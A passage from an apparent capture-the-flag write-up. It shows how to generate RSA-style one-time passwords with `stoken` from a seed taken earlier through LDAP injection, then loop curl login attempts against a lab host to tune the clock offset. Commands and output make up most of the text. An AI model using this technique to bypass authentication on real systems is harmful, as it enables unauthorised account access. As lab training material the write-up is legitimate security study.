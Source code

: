 #### Generate OTP

Now I'll use `stoken` with the following options to get the OTP:

-   `--token=285...` - the seed I got through LDAP injection
-   `--use-time=480` - the offset in seconds between my clock and the
    server
-   `--pin=0000` - I don't have a pin value, and the man page says to
    use "0000" in that case



    root@kali# stoken --token=285449490011357156531651545652335570713167411445727140604172141456711102716717000 --use-time=-480 --pin=0000
    41663033



#### Adjust Time

Just guessing around 8 minutes got me close, but I noticed sometimes I
got errors just after the minute changes. I ran a loop to check how many
seconds I was off:



    root@kali# for i in {1..100}; do d=$(date); echo -n $d; curl -vv -s http://10.10.10.122/login.php -d "inputUsername=ldapuser&inputOTP=$(stoken --token=2854494900
    11357156531651545652335570713167411445727140604172141456711102716717000 --use-time=-480 --pin=0000)" 2>&1 | grep 302; sleep 1; done  
    Sun Feb 10 11:39:54 EST 2019< HTTP/1.1 302 Found
    Sun Feb 10 11:39:56 EST 2019< HTTP/1.1 302 Found
    Sun Feb 10 11:39:57 EST 2019< HTTP/1.1 302 Found
    Sun Feb 10 11:39:58 EST 2019< HTTP/1.1 302 Found
    Sun Feb 10 11:39:59 EST 2019< HTTP/1.1 302 Found
    Sun Feb 10 11:40:00 EST 2019Sun Feb 10 11:40:01 EST 2019Sun Feb 10 11:40:03 EST 2019Sun Feb 10 11:40:04 EST 2019Sun Feb 10 11:40:05 EST 2019Sun Feb 10 11:40:06 EST 2019Sun Feb 10 11:40:07 EST 2019Sun Feb 10 11:40:09 EST 2019Sun Feb 10 11:40:10 EST 2019Sun Feb 10 11:40:11 EST 2019Sun Feb 10 11:40:12 EST 2019Sun Feb 10 11:40:13 EST 2019Sun Feb 10 11:40:15 EST 2019Sun Feb 10 11:40:16 EST 2019< HTTP/1.1 302 Found
    Sun Feb 10 11:40:17 EST 2019< HTTP/1.1 302 Found
    Sun Feb 10 11:40:18 EST 2019< HTTP/1.1 302 Found
    Sun Feb 10 11:40:19 EST 2019< HTTP/1.1 302 Found
    Sun Feb 10 11:40:21 EST 2019< HTTP/1.1 302 Found
    Sun Feb 10 11:40:22 EST 2019< HTTP/1.1 302 Found
    ^C



I checked this a couple times, and it consistently failed to get a 302
from :00 through :14 or :15. So I changed my offset by 15 seconds, and
then it worked beautifully.



    root@kali# for i in {1..100}; do d=$(date); echo -n $d; curl -vv -s http://10.10.10.122/login.php -d "inputUsername=ldapuser&inputOTP=$(stoken --token=285449490011357156531651545652335570713167411445727140604172141456711102716717000 --use-time=-495 --pin=0000)" 2>&1 | grep 302; sleep 1; done
    Sun Feb 10 11:42:54 EST 2019< HTTP/1.1 302 Found
    Sun Feb 10 11:42:55 EST 2019< HTTP/1.1 302 Found
    Sun Feb 10 11:42:56 EST 2019< HTTP/1.1 302 Found
    Sun Feb 10 11:42:58 EST 2019< HTTP/1.1 302 Found
    Sun Feb 10 11:42:59 EST 2019< HTTP/1.1 302 Found
    Sun Feb 10 11:43:00 EST 2019< HTTP/1.1 302 Found
    Sun Feb 10 11:43:01 EST 2019< HTTP/1.1 302 Found
    Sun Feb 10 11:43:02 EST 2019< HTTP/1.1 302 Found
    Sun Feb 10 11:43:03 EST 2019< HTTP/1.1 302 Found
    Sun Feb 10 11:43:05 EST 2019< HTTP/1.1 302 Found
    Sun Feb 10 11:43:06 EST 2019< HTTP/1.1 302 Found
    Sun Feb 10 11:43:07 EST 2019< HTTP/1.1 302 Found
    Sun Feb 10 11:43:08 EST 2019< HTTP/1.1 302 Found